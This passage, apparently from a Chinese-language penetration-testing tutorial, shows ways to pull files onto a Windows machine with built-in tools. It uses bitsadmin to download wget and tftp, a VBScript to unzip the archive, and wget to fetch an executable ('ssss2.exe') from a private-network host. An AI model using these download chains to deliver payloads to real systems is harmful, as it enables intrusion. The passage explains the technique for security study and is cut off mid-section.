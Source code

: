 ```
bitsadmin /transfer n http://www.interlog.com/~tcharron/wgetwin-1_5_3_1-binary.zip  C:\test\update\wget.zip

```

运行后会下载wget的压缩包wget.zip

**注：**  
Windows系统默认不包含解压缩zip文件的命令，但是可以通过vbs来实现解压缩zip文件

**vbs实现解压缩：**

以下代码保存为.vbs文件：

```
UnZip "C:\test\update\wget.zip","C:\test\update\wget\"
Sub UnZip(ByVal myZipFile, ByVal myTargetDir)
    Set fso = CreateObject("Scripting.FileSystemObject")
    If NOT fso.FileExists(myZipFile) Then
        Exit Sub
    ElseIf fso.GetExtensionName(myZipFile) <> "zip" Then
        Exit Sub
    ElseIf NOT fso.FolderExists(myTargetDir) Then
        fso.CreateFolder(myTargetDir)
    End If
    Set objShell = CreateObject("Shell.Application")
    Set objSource = objShell.NameSpace(myZipFile)
    Set objFolderItem = objSource.Items()
    Set objTarget = objShell.NameSpace(myTargetDir)
    intOptions = 256
    objTarget.CopyHere objFolderItem, intOptions
End Sub

```

> 代码来自于[http://demon.tw/programming/vbs-unzip-file.html](http://demon.tw/programming/vbs-unzip-file.html)

成功解压缩后就可通过wget.exe来传输文件

```
C:\test\update\wget\wget.exe http://192.168.174.145/ssss2.exe

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/1dfc7e27c22dffa1d4ca5334d24116866764e7d5.jpg)

### 2、ftfp

思路同上，先通过bitsadmin下载tftp.exe，然后利用tftp传输文件

```
bitsadmin /transfer n http://www.winagents.com/downloads/tftp.exe C:\test\update\tftp.exe

```
